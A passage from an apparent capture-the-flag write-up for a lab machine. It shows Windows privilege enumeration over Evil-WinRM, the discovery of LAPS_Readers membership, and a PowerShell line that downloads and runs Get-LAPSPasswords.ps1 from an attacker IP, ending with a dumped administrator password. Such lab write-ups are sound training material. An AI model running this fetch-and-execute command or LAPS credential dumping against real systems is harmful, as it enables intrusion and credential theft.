 ```powershell
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```
No special permissions, let's enumerate our groups:
```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 11:12:37 AM
Password expires             Never
Password changeable          10/26/2021 11:12:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/6/2023 9:25:55 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```
Now this is interesting, we are part of a group called "LAPS_Readers"; a good search about that group could lead us to something interesting, a good article about [Dumping LAPS](https://www.hackingarticles.in/credential-dumpinglaps/) such article give us a reference to the [Get-LAPSPasswords.ps1](https://raw.githubusercontent.com/kfosaaen/Get-LAPSPasswords/master/Get-LAPSPasswords.ps1) which is worth to check:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/Get-LAPSPasswords.ps1')
```
Then by reading the exploit, we find that the Powershell module can be executed as follows:
```powershell
Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : k/lUoz3pm8]1ql0R[+i3{1n2
Expiration : 2/11/2023 6:35:44 PM
```
